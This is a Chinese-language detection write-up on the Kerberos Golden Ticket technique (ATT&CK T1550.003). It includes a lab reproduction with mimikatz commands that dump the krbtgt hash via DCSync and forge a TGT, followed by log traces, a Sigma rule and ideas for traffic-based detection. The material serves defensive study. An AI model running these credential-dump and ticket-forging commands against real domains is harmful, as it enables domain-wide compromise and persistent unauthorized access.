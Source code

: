 # T1550-003-win-黄金票据

## 来自ATT&CK的描述

攻击者可能会使用被盗的Kerberos票证“传递票证”，使其在目标组织的环境中横向移动，从而绕过正常的系统访问控制。传递票证（PtT）是一种使用Kerberos票证对系统进行身份验证的方法，无需访问帐户密码。Kerberos身份验证可以用作横向移动到远程系统的第一步。

在这种技术中，有效的Kerberos票有效的帐户被捕获OS凭证倾销。取决于访问级别，可以获得用户的服务票证或票证授予票证（TGT）。服务票证允许访问特定资源，而TGT可以用于从票证授予服务（TGS）请求服务票证以访问用户有权访问的任何资源。

可以为使用Kerberos作为身份验证机制的服务获取Silver Ticket，并用于生成票证以访问该特定资源和承载该资源的系统（例如，SharePoint）。

可以使用密钥分发服务帐户KRBTGT帐户NTLM哈希来获取域的Golden Ticket，这可以为Active Directory中的任何帐户生成TGT。

## 测试案例

黄金票据（golden ticket）：伪造票据授予票据（TGT），也被称为认证票据。与其说是一种攻击方式，不如说是一种后门，当域控权限掉后，再重新获取权限，因为常见的在域中管理员知道自己被入侵了 往往只是简单的修改域管的账号 恰恰krbtgt却被忽略…

## 检测日志

windows 安全日志

## 测试复现

### 测试环境

Windows server 2016（AD域控）

Win 7（靶机）

### 测试过程

#### 尝试访问DC目录

```dos
dir \\ICBC.abcc.org\c$\
```

![访问DC目录](https://s1.ax1x.com/2020/04/16/JFzcM6.png)

#### 导出krbtgt用户的hash和sid(使用mimikatz.exe工具)

```bash
lsadump::dcsync /domain:abcc.org /user:krbtgt    #domian：后面是域控名  user后面是krbtgt用户
```

![凭据](https://s1.ax1x.com/2020/04/16/JFzXdg.png)

在域内其他Client(用户机器)上使用其他域管理员来抓取krbtgt用户的hash和sid(使用mimikatz.exe工具)，这里命令和上面的命令是一样的。也可以利用其它方法获取krbtgt的NTML hash

#### 清除自己Client端(域内其他机器)的票据

在域控上面成功抓取了hash和sid，将hash和sid复制到其他域内机器中，也就是Client端，然后在mimikatz.exe执行kerberos::list查看我们当前的票据。

![清理凭据](https://s1.ax1x.com/2020/04/16/JFzjoQ.png)

如果存在其它凭据，可以使用kerberos::purge清除当前用户票据。

#### 伪造TGT票据

##### 方法一

```bash
mimikatz.exe "kerberos::golden /domain:<域名> /sid:<域SID> /rc4:<KRBTGT NTLM Hash> /user:<任意用户名> /ptt" exit
```

![伪造](https://s1.ax1x.com/2020/04/16/JkSAwF.png)

##### 验证攻击效果

```dos
dir \\ICBC.abcc.org\c$\
```

![验证](https://s1.ax1x.com/2020/04/16/JkSeY9.png)

#### 方法二

```bash
mimikatz# kerberos::gloden /domain:*.com /sid:<域SID> /krbtgt: <KRBTGT NTLM Hash> /user:<任意用户名> /ticket:test.kribi
or
mimikatz# kerberos::gloden /domain:*.com /sid: <域SID> /aes256: <KRBTGT aes256> /user: <任意用户名> /ticket:test.kribi
```

![伪造2](https://s1.ax1x.com/2020/04/16/JkSMy6.png)

#### 导入*.kribi文件

![导入](https://s1.ax1x.com/2020/04/16/JkSQOK.png)

#### 验证是否成功

![验证1](https://s1.ax1x.com/2020/04/16/JkSd6P.png)

## 测试留痕

正常日志痕迹

![正常](https://s1.ax1x.com/2020/04/16/JkS6Yj.png)

异常日志痕迹

![异常](https://s1.ax1x.com/2020/04/16/JkSykQ.png)

## 检测规则/思路

### Sigma规则

```yml
title: windows本地账户操纵
description: win7测试
references:
tags: T1550-003
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 4624  #账户登录
        Account domain: '*.*' #可参考示例日志进行理解
    selection2:
        EventID: 4672  #特殊登录
        Account domain: _ #账户域为空
    timeframe: last 5s
    condition: all of them
level: medium
```

### 建议

最后，存在一些问题，mimikatz最新版本已经更新修复了一下问题，通过上述此特征检测黄金票据可能会产生误报或者漏洞，建议采用偏向流量侧的检测方法进行检测，思路如下。

1.AS-REP返回的Ticket字段中，虽然经过krbtgt密码的加密，但我们仍然可以对其计算唯一摘要值。

2.跟踪每一次的AS-REP TGT票据颁发，记录下Ticket Hash，存入列表A。

3.对每一次TGS-REQ中TGT Hash进行确认，判断该值是否存在于已知颁发过的TGT列表A中。如果不存在，则属于伪造的TGT，即黄金票据。

4.列表A的内容可设置过期时间，TGT和ST的默认最大有效期都是10小时。

## 参考推荐

MITRE-ATT&CK-T1550-003

<https://attack.mitre.org/techniques/T1550/003/>
